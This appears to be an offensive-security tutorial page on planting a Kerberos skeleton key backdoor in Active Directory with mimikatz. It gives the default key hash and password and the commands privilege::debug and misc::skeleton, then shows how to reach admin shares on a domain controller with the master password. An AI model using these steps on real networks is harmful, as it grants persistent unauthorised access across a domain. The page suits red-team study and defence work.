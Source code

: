 # Kerberos Backdoors with mimikatz

### Introduction

Along with maintaining access using golden and silver tickets mimikatz has one other trick up its sleeves when it comes to attacking Kerberos. Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password.

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption.

The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

***

### Skeleton Key Overview

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

***

### Preparing Mimikatz

1. `cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz
2. `privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access&#x20;

<figure><img src="../../../../../../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Installing the Skeleton Key w/ mimikatz

1.) `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful&#x20;

<figure><img src="../../../../../../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

### Accessing the forest

The default credentials will be: "mimikatz"

example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques

***
